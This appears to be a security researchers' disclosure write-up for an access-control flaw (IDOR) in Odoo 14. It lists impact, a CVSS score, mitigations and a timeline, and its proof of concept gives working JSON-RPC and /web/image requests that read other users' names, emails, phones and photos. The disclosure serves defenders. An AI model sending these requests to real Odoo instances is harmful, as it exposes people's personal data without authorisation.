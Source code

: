 # Odoo 14 - Insecure Direct Object Reference (IDOR) / Broken Access Control

## 📌 CVE ID
- Pending assignment from MITRE

## 📌 Description
A vulnerability in **Odoo 14** allows authenticated low-privilege users (with no assigned roles) to access sensitive customer and employee data.  
The endpoints `/web/dataset/call_kw/res.partner/read` and `/web/image` do not enforce proper access control, resulting in unauthorized disclosure of Personally Identifiable Information (PII).

---

## 🎯 Affected Versions
- Odoo 14 (Community & Enterprise)  
- Other versions (15, 16, 17) not tested yet.  

---

## 🛠 Vulnerability Type
- Insecure Direct Object Reference (IDOR)  
- Broken Access Control  
- Sensitive Information Disclosure  

---

## ⚠️ Impact
- Unauthorized exposure of customer and employee data:
  - Full names  
  - Emails  
  - Phone numbers  
  - Job titles  
  - Company addresses  
  - Profile images (Base64 encoded)  
- Potential compliance violation (GDPR, CCPA).  
- Risk of further data mining.  

**CVSS v3.1 Vector (example):**  
`AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **Score: 7.5 (High)**  

---

## 🧪 Steps to Reproduce (PoC)

1. Login with a **basic user account** (no special roles).  
2. Intercept the following request in Burp Suite:

```http
POST /web/dataset/call_kw/res.partner/read HTTP/1.1
Host: target-odoo:8069
Content-Type: application/json
Cookie: session_id=<valid_session_id>

{
 "jsonrpc": "2.0",
 "method": "call",
 "params": {
   "args": [[39], ["id","name","email","phone","function","image_128"]],
   "model": "res.partner",
   "method": "read",
   "kwargs": {}
 },
 "id": 12345
}
```

3. Response returns details of another user:

```json
{
 "id": 39,
 "name": "Chester Reed",
 "email": "chester.reed79@example.com",
 "phone": "(979)-904-8902",
 "function": "Chief Executive Officer (CEO)",
 "image_128": "/9j/4AAQSkZJRgABAQEASABIAAD..."
}
```

4. Similarly, user images can be accessed directly:

```http
GET /web/image?model=res.users&field=image_128&id=8
```

→ Returns profile photo of another user.  

---

## 📷 Evidence
![Request 1](/evidence/Screenshot%202025-08-25%20132025.png)  
![Request 2](/evidence/Screenshot%202025-08-25%20132045.png)  
![Request 3](/evidence/Screenshot%202025-08-25%20132147.png)  
![Request 4](/evidence/Screenshot%202025-08-25%20132203.png)  
![Request 5](/evidence/Screenshot%202025-08-25%20132300.png)  
![Request 6](/evidence/Screenshot%202025-08-25%20132432.png)  
![Request 7](/evidence/Screenshot%202025-08-25%20132456.png)  

---

## 🔒 Mitigation
- Enforce record rules on `res.partner` and `res.users` models.  
- Add access control checks before returning PII.  
- Restrict `/web/image` to authorized users only.  
- Ensure ORM respects ACL/Record Rules for all JSON-RPC endpoints.  

---

## 📅 Disclosure Timeline
- 2025-06-25: Vulnerability discovered on Odoo 14 demo.  
- 2025-08-25: Requesting CVE from MITRE.  

---

## 👤 Credits
- Researcher: **Abdulaziz Alanazi - Fahad Alamri - Resilience**
